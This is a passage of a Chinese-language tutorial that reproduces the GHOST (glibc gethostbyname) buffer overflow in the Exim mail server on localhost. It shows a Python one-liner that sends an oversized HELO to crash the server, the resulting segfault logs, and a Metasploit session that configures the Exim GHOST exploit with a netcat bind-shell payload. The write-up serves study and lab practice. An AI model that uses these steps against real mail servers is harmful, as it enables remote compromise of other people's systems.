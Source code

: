 ```c
    hostdata = gethostbyname(CS host->name);
    error_num = h_errno;
    }
  #endif   /* HAVE_IPV6 */
```
函数 `host_find_byname` 调用了 `gethostbyname()` 和 `gethostbyname2()` 分别针对 IPv4 和 IPv6 进行处理，也就是在这里可以触发漏洞函数。

这一次我们输入这样的一串字符，即可导致溢出：
```
$ python -c "print 'HELO ' + '0'*$((0x500-16*1-2*8-1-8))"
```
但是程序可能还是正常在运行的，我们多输入执行几次就会触发漏洞，发生段错误，连接被断开。
```
Connection closed by foreign host.
```
```
$ dmesg | grep exim
[28929.172015] traps: exim4[3288] general protection ip:7fea41465c1d sp:7fff471f0dd0 error:0 in libc-2.15.so[7fea413f6000+1b5000]
[28929.493632] traps: exim4[3301] general protection ip:7fea42e2cc9c sp:7fff471f0d90 error:0 in exim4[7fea42db6000+dc000]
[28929.562113] traps: exim4[3304] general protection ip:7fea42e2cc9c sp:7fff471f0d90 error:0 in exim4[7fea42db6000+dc000]
[28929.631573] exim4[3307]: segfault at 100000008 ip 00007fea42e2d226 sp 00007fff471e8b50 error 4 in exim4[7fea42db6000+dc000]
```

其实对于 Exim 的攻击已经集成到了 Metasploit 框架中，我们来尝试一下，正好学习一下这个强大的框架，仿佛自己也可以搞渗透测试。先关掉debug模式的程序，重新以正常的样子打开：
```
$ /etc/init.d/exim4 restart
```
```
msf > search exim

Matching Modules
================

   Name                                          Disclosure Date  Rank       Description
   ----                                          ---------------  ----       -----------
   exploit/linux/smtp/exim4_dovecot_exec         2013-05-03       excellent  Exim and Dovecot Insecure Configuration Command Injection
   exploit/linux/smtp/exim_gethostbyname_bof     2015-01-27       great      Exim GHOST (glibc gethostbyname) Buffer Overflow
   exploit/unix/local/exim_perl_startup          2016-03-10       excellent  Exim "perl_startup" Privilege Escalation
   exploit/unix/smtp/exim4_string_format         2010-12-07       excellent  Exim4 string_format Function Heap Buffer Overflow
   exploit/unix/webapp/wp_phpmailer_host_header  2017-05-03       average    WordPress PHPMailer Host Header Command Injection


msf > use exploit/linux/smtp/exim_gethostbyname_bof 
msf exploit(linux/smtp/exim_gethostbyname_bof) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(linux/smtp/exim_gethostbyname_bof) > set SENDER_HOST_ADDRESS 127.0.0.1
SENDER_HOST_ADDRESS => 127.0.0.1
msf exploit(linux/smtp/exim_gethostbyname_bof) > set payload cmd/unix/bind_netcat
payload => cmd/unix/bind_netcat
msf exploit(linux/smtp/exim_gethostbyname_bof) > show options 

Module options (exploit/linux/smtp/exim_gethostbyname_bof):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   RHOST                127.0.0.1        yes       The target address
```